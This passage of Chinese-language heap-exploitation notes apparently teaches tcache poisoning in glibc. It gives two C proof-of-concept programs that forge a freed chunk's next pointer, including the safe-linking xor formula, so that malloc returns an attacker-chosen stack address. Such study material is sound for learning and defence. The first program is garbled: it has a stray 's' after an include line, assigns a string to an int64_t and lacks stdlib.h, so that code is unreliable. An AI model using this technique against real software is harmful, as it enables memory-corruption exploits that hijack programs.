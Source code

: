 直接伪造next ，注意伪造地址的对齐。

程序演示：
```C
#include <stdio.h>s
#include <stdint.h>

int main()
{
	int64_t *p1=malloc(0x40);
    int64_t *p2=malloc(0x40);
    int64_t stack_addr="deadbeef";
    free(p1);
    free(p2);
    
    p2[0]=&stack_addr;
    printf("malloc chunk = %p\n",malloc(0x40));
    printf("fake chunk = %p\n",malloc(0x40));
    return 0;
}
```

#### glibc2.31以上版本利用

需要伪造加密后的next，注意伪造地址的对齐。

算法：(当前地址 >> 12)  xor next的地址

程序演示：

```C++
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
	size_t stack_var[0x10];
	size_t *target = NULL;

	// choose a properly aligned target address
	for(int i=0; i<0x10; i++) {
		if(((long)&stack_var[i] & 0xf) == 0) {
			target = &stack_var[i];
			break;
		}
	}
	assert(target != NULL);
	printf("The address we want malloc() to return is %p.\n", target);
	intptr_t *a = malloc(128);
	intptr_t *b = malloc(128);
	free(a);
	free(b);
	b[0] = (intptr_t)((long)target ^ (long)b >> 12);
	printf("1st malloc(128): %p\n", malloc(128));
	intptr_t *c = malloc(128);
	printf("2nd malloc(128): %p\n", c);
	return 0;
}
```

